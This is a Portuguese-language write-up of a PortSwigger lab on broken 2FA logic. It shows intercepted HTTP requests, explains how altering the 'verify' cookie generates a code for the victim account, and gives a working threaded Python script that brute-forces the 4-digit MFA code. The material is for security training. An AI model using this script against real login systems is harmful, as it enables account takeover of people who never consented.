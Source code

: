 ```yaml
---
title: 2FA Broken Logic
date: 2024-03-23 19:35:00 +0300
categories: [anotacoes, web application security, weblogic]
tags: [anotacoes, web application security, weblogic]     # TAG names should always be lowercase
---
```



## PortSwigger Lab: Escopo

Esse laboratório demonstra uma vulnerabilidade de 2FA, abaixo temos os dados para realiza-lo:

- A autenticação de dois fatores deste laboratório é vulnerável devido à sua falha lógica. Para resolver o laboratório, precisamos acessar a página da conta do Carlos.
- credenciais: wiener/peter
- Nome de usuário da vítima:carlos
- Acesso ao servidor de e-mail para receber seu código de verificação 2FA.

## Analisando a requisição POST
**1** - Ao acessar o lab, com o Burp em execução, fiz login com a conta wiener e analisei o processo de verificação 2FA. Observamos que na requisição POST /login2 onde o paramatro verify é utilizado para determinar qual conta do usuário está sendo acessada.
```bash
POST /login HTTP/2
Host: example.web-security-academy.net
Cookie: verify=wiener; session=yoursession
Content-Length: 30
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="122", "Not(A:Brand";v="24", "Google Chrome";v="122"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://example.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://example.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Accept-Language: pt-PT,pt;q=0.9,en-US;q=0.8,en;q=0.7

username=wiener&password=peter
```

## Solicitando o código 2FA para a conta ***carlos***
Após a analise, sai da conta wiener e enviei uma requisição GET /login2, alterando o parametro verify para carlos, dessa forma um código 2FA temporário foi gerado para o usuário carlos. 

```bash
GET /login2 HTTP/2
Host: example.web-security-academy.net
Cookie: verify=carlos; session=yoursession
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="122", "Not(A:Brand";v="24", "Google Chrome";v="122"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Referer: https://example.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Accept-Language: pt-PT,pt;q=0.9,en-US;q=0.8,en;q=0.7
```

## Criando script python 
Em seguida fui até a página de login, digitei o usuário e senha do usuário wiener e coloquei um código inválido. Por fim enviei uma requisição POST /login, definindo o parametro verify=carlos e adicionando um payload ao parametro mfa-code que também foi encontrado no inicio da análise. Utilizando o Intruder no Burp Suite é possível fazer um brute-force para descobrir o código 2FA de 4 digitos porém esse processo pode ser muito lento se você não tem a versão profissional. Por isso fiz um script em Python que trabalha com ThreadPoolExecutor para enviar diversas requisições simultaneas, facilitando o processo de descoberta e evitando expirar a sessão do laboratório, além de identificar quando o código da resposta da solicitação for 302 e analisando o tamanho de cada resposta em bytes:
```python
import requests
import concurrent.futures

url = 'https://example.web-security-academy.net/login2'
headers = {
    'Host': 'example.web-security-academy.net',
    'Cookie': 'verify=carlos; session=yoursession',
    'Cache-Control': 'max-age=0',
    'Sec-Ch-Ua': '"Chromium";v="122", "Not(A:Brand";v="24", "Google Chrome";v="122"',
    'Sec-Ch-Ua-Mobile': '?0',
    'Sec-Ch-Ua-Platform': '"Windows"',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36',
    'Origin': 'https://example.web-security-academy.net',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
    'Sec-Fetch-Site': 'same-origin',
    'Sec-Fetch-Mode': 'navigate',
    'Sec-Fetch-User': '?1',
    'Sec-Fetch-Dest': 'document',
    'Referer': 'https://example.web-security-academy.net/login2',
    'Accept-Encoding': 'gzip, deflate, br',
    'Accept-Language': 'pt-PT,pt;q=0.9,en-US;q=0.8,en;q=0.7',
    'Connection': 'close'
}

def send_request(mfa_code):
    payload = {'mfa-code': f'{mfa_code:04d}'}
    response = requests.post(url, headers=headers, data=payload)
    if response.status_code == 302:
        print(f'Success! Code is: {mfa_code:04d}, Response size: {len(response.content)} bytes')
    else:
        print(f'Tried code {mfa_code:04d}, Status code: {response.status_code}, Response size: {len(response.content)} bytes')

# Define a função principal para execução concorrente
def main():
    # Usando ThreadPoolExecutor para criar várias threads
    with concurrent.futures.ThreadPoolExecutor(max_workers=10) as executor:
        # Enviar solicitações para códigos MFA de 9999 a 0000
        executor.map(send_request, range(9999, -1, -1))

if __name__ == "__main__":
    main()
```
## Autenticação bem sucedida
Após a execução do script, descobrimos o valor do código 2FA e conseguimos completar o laboratório obtendo acesso a conta do Carlos.

![weblogic](https://i.imgur.com/qCHA9CW.png)

- Referências: https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-broken-logic